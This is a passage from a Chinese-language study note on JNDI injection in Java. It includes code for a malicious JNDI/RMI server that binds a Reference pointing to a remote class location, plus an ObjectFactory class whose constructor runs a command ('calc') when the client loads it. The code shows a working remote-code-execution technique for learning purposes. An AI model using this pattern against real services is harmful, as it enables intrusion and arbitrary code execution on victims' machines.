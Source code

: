 4. 这里 JNDI 的底层还是走的 RMI 底层，因此 RMI 的相关漏洞，JNDI 也存在

### 1.3 `Reference` 类

1. `Reference` 的介绍详见：

    > https://fynch3r.github.io/%E6%90%9E%E6%87%82JNDI/

2. 举个例子，对 JNDI 服务端进行改写：
    ```java
    public static void main(String[] args) throws NamingException, RemoteException {
        // 这里在 RMIServer 中已经创建了注册中心，因此这里不用创建
        InitialContext initialContext = new InitialContext();
        // 然后由于 RMIServer 里面调用了 bind，因此这里要 rebind
        // initialContext.rebind("rmi://localhost:1099/myRemote", new MyRemoteImpl());
        // 这里需要注意，TestRef 这个类不能有包 package
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:7777/");
        initialContext.rebind("rmi://localhost:1099/myRemote", reference);
        // todo 漏洞成因：攻击客户端（目标），创建恶意服务端，指定恶意的 factoryLocation，将其引导到一个有恶意类的地方（这个恶意类和 factory 同名），那么客户端只要访问对应的 rmi 服务，就会触发漏洞。
    }
    ```

3. 给出 `TestRef` 的定义：
    ```java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.io.IOException;
    import java.rmi.RemoteException;
    import java.util.Hashtable;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/12 20:14
     */
    public class TestRef implements ObjectFactory {
        public TestRef() throws IOException {
            Runtime.getRuntime().exec("calc");
        }
    
        @Override
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
            System.out.println("Object is " + obj);
            System.out.println("name is " + name);
            System.out.println("nameCtx is " + nameCtx);
            System.out.println("environment is " + environment);
            return this;
        }
    }
    ```
